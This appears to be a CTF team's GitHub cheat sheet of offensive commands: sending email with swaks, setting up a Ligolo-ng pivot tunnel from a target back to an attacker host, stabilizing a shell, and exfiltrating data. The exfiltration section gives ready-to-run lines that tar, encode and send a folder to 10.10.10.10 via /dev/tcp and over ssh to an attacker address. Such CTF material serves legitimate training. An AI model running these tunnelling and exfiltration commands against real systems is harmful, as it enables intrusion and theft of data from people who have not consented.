# purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
 
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


### Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

### Exfilrating Data
##via TCP socket, ebcdic and base64
#On kali:
```
nc -nlvp 80 > datafolder.tmp
```
#On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
#On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
##via SSH
#On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
#On kali:
```
cd /tmp/datafolder
```
